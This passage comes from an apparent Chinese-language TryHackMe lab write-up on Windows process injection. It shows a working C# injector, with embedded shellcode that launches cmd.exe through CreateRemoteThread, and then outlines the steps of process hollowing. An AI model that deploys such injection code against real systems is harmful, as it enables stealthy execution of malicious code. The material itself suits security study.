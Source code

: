 ```csharp
            0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
            0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
            0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,
            0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,
            0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,
            0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
            0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,
            0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,
            0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,
            0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,
            0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,
            0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x6d,0x64,
            0x2e,0x65,0x78,0x65,0x00};

        IntPtr processHandle = OpenProcess(0x001F0FFF, false, uint.Parse(args[0]));
        IntPtr address = VirtualAllocEx(processHandle, IntPtr.Zero, 0x1000, 0x3000, 0x40);
        
        IntPtr size;
        WriteProcessMemory(processHandle, address, shellcode, shellcode.Length, out size);

        CreateRemoteThread(processHandle, IntPtr.Zero, 0, address, IntPtr.Zero, 0, IntPtr.Zero);
    }

}
```

使用csc编译，然后启动一个notepad.exe，使用tasklist查看pid，运行我们的进程注入器

![在这里插入图片描述](https://img-blog.csdnimg.cn/4c9b09fa091b4a428eff590883c818f3.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/982109173dbd455e97c6f52222c22abd.png)

可以看到刚刚打开的notepad没了，并且打开了一个cmd, 也就是说执行了我们的shellcode

![在这里插入图片描述](https://img-blog.csdnimg.cn/1b7d9e7d3fe444eab402e029f5ad6272.png)

## 进程Hollowing

在上一个任务中，我们讨论了如何使用shellcode注入将恶意代码注入到合法进程中。在此任务中，我们将介绍进程镂空。与shellcode注入类似，这种技术提供了将整个恶意文件注入进程的能力。这是通过“挖空”或取消映射进程并将特定的PE数据和部分注入进程来实现的。

镂空可以分为六个步骤：

1) 创建处于挂起状态的目标进程。
2) 打开恶意image。
3) 从进程内存中取消映射合法代码。
4) 为恶意代码分配内存位置，并将每个部分写入地址空间。
5) 设置恶意代码的入口点。
6) 使目标进程脱离挂起状态。

**由于代码太多，后面的我就不贴代码了，因为基本都是借助pinvoke.net来将C++翻译成C#的, C++的代码在thm的机器中均有提供**

在进程镂空的第一步，我们必须使用 CreateProcessA. 要获取 API 调用所需的参数，我们可以使用以下结构 STARTUPINFOA 和 PROCESS_INFORMATION
